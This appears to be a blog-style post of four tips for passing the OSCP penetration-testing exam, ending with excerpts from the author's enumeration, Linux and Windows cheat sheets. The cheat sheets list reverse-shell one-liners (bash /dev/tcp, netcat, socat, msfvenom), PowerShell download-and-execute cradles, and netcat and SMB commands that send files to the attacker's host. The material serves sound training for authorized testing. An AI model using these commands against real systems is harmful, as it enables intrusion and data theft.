 # Four OSCP Tips

I completed all five OSCP exam machines in 9.5 hours and I did not use Metasploit. Here are four tips that will help you to pass your OSCP exam:

## 1. Tame your terminal

Export variables in `~/.bashrc` and set aliases in `~/.bash_aliases` for commands that you will frequently use. I recommend the following: 
* Store your OSCP lab and exam content on your host machine and share it with your Pentesting with Kali Linux (PWK) virtual machine using VMWare's shared folders. Your PWK virtual machine should come with a script to mount all shared drives, but here's a copy if it's missing:
	```
	alias "mount-shared-folders=
	vmware-hgfsclient | while read folder; do
		echo \"[i] Mounting ${folder} (/mnt/hgfs/${folder})\";
		mkdir -p \"/mnt/hgfs/${folder}\";
		umount -f \"/mnt/hgfs/${folder}\" 2>/dev/null;
		vmhgfs-fuse -o allow_other -o auto_unmount \".host:/${folder}\" \"/mnt/hgfs/${folder}\";
	done"
	```	
* You will frequently use tools that will require you to type out the target machine's IP address and/or your VPN IP address. Export these values to variables to save time and prevent typos:
	```
	export targ=x.x.x.x
	export tun0=$(/sbin/ip -o -4 addr list tun0 | awk '{print $4}' | cut -d/ -f1)
	```
	Use `source` to reload `.bashrc` if you've changed a variable's definition and you don't want to have to close your terminal:
	```
	source ~/.bashrc
	```	
* Not OSCP-specific but you can use `xclip` and an alias to copy and paste while keeping both hands on the keyboard:
	```
	alias "c=xclip -selection clipboard"
	alias "v=xclip -o -selection clipboard"
	```
	Example: use this alias to review a `searchsploit` result:
	```
	locate windows/remote/1.c | c ; less `v`
	```
* You will frequently use a webserver to transfer files to a target machine. Create a shared folder for these files and make an alias to spin up the webserver:
	```
	alias "webserver=
		webserver_dir=/home/user/www;
		ls -laR $webserver_dir;
		python3 -m http.server 8888 --directory $webserver_dir --bind $tun0"
	```
## 2. Connect with the OSCP community
There are a handful of Discord servers with OSCP text channels and one of them is InfoSec Prep which has ~16,000 members as of 1/1/2020: https://discord.gg/mS5tzTuyR2.

## 3. Study for the *exam*
While completing the PWK exercises and labs you will learn essential offensive security concepts like post-exploitation and lateral movement which will not be tested during the OSCP exam. Additionally, in 2020 Offensive Security updated the course (https://www.offensive-security.com/offsec/pwk-2020-update/) to incude a lot of new content including Active Directory and Powershell Empire modules which will also not be tested during the OSCP exam according to the update announcement: "At this time, the OSCP exam, proctoring, and certification procedures will remain the same." You could ignore these essential concepts (at a detriment to your professional development) if your only goal is to pass the OSCP exam. 

## 4. Make your own cheat sheets
Every J. Random Hacker has published an OSCP cheat sheet:

![Google cheat sheet result count](google_cheat_sheet_count.png)

and their work is helpful to you but not nearly as helpful as creating your own. I recommend that you create at least 3 cheat sheet documents as you progress through the PWK exercises and lab machines. The following are snippets from three that I created-

1. An enumeration cheat sheet:

```
PORT SCAN
=========
sudo nmap -v -Pn -A $targ -oN nmap_default-ports ;\
sudo nmap -v -Pn -sV --script vuln $targ -oN nmap_vulns ;\
sudo nmap -v -Pn -p- $targ -oN nmap_all-ports

SERVICE ENUMERATION
===================
21 FTP
22 SSH
	* OpenSSH <= 7.7 has username enumeration vulnerability
		* python sshUsernameEnumExploit.py --userList /usr/share/wordlists/metasploit/unix_users.txt $targ
			* source: https://github.com/BlackDiverX/ssh-user-enumeration
		* python 45939.py $targ root
	* server only accepts legacy algorithms?  "no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1 ...""
		* connect using legacy algorithm: ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 $user@$targ 
25 SMTP
	* run SMTP nmap scripts: nmap -p 25 --script=smtp-* $targ
	* enumerate local linux users: smtp-user-enum.pl -M VRFY/EXPN/RCPT -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t $targ	
	* shellshock RCE vulnerability exists for postfix smtp server w/procmail
		* PoC: https://github.com/3mrgnc3/pentest_old/blob/master/postfix-shellshock-nc.py
...
```

2. A Linux cheat sheet with shells, file transfer methods, and privilege escalation methods:

```
SHELLS
======
* bash -i >& /dev/tcp/$tun0/4444 0>&1
* msfvenom -p linux/x86/shell_reverse_tcp LHOST=$tun0 LPORT=4444 -f elf > shell86.elf
* msfvenom -p linux/x64/shell_reverse_tcp LHOST=$tun0 LPORT=4444 -f elf > shell.elf
* nc -e /bin/bash $tun0 4444
* nc -c /bin/bash $tun0 4444
* socat tcp:$tun0:4444 exec:"bash -i",pty,stderr,setsid,sigint,sane
	* socat -,raw,echo=0 tcp-listen:4444 //to catch the shell
* rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $tun0 4444 >/tmp/f
	* netcat shell for nc without -e or -c
	* sourced from: https://ostrokonskiy.com/posts/linux-privilege-escalation-cheatsheet.html
...

DOWNLOAD FILES TO TARGET
========================
* scp $file $user@$targ:~/$file
* curl http://$tun0:8888/$file -o /tmp/$file
* wget http://$tun0:8888/$file -O /tmp/$file
* axel http://$tun0:8888/$file -o /tmp/$file
...

CRONJOBS
========
* use pspy to view short-lived processes
* check cron log file for cronjobs in execution
	grep "CRON" /var/log/syslog*
* list all /etc/cron files
	ls -lhra /etc/cron*
* check /etc/crontab- sometimes sysadmins put tasks
* users can create cronjobs with crontab -e
	* without adequate permissions we cannot view other users' crontabs
	* crontabs are stored in /var/spool/cron/crontabs/$user
...
```

3. A Windows cheat sheet with shells, file transfer methods, and privilege escalation methods:

```
SHELLS
======
* msfvenom -p windows/x64/shell_reverse_tcp LHOST=$tun0 LPORT=4444 -f exe > unstaged64.exe
* msfvenom -p windows/shell_reverse_tcp LHOST=$tun0 LPORT=4444 -f exe > unstaged86.exe
* nc.exe $tun0 4444 -e cmd.exe
* powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://$tun0:8888/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress $tun0 -Port 4444"
* powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://$tun0:8888/powercat.ps1'); powercat -l -p 4444 -e cmd"
...

UPLOAD FILES TO ATTACKER
========================
* nc -nvlp 6666 > $file
	* to receive
* nc.exe $tun0 6666 -w 3 < $file.out
* Get-Content $file.out | ./nc64.exe -w 3 $tun0 6666
	* useful for cases without '<'
* cmd /c 'C:\Users\$user\Documents\nc64.exe -w 3 $tun0 6666 < $file'
* sudo impacket-smbserver smb_share $directory
	* copy $file.out \\$tun0\smb_share\
...

GENERAL PRIV ESC
================
* whoami /all
	* look for: SeImpersonate, SeAssignPrimary, SeTcb, SeBackup, SeRestore, SeCreateToken, SeLoadDriver, SeTakeOwnership, or SeDebug
		* source: https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/
* net localgroup Administrators
	* shows who is inside Administrators group
* dir /b /s *.ext
	* search for files with file extension
* dir /r
	* view alternate data streams
* type C:\Users\$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
	* review user's powershell history
...
```
Bona sort!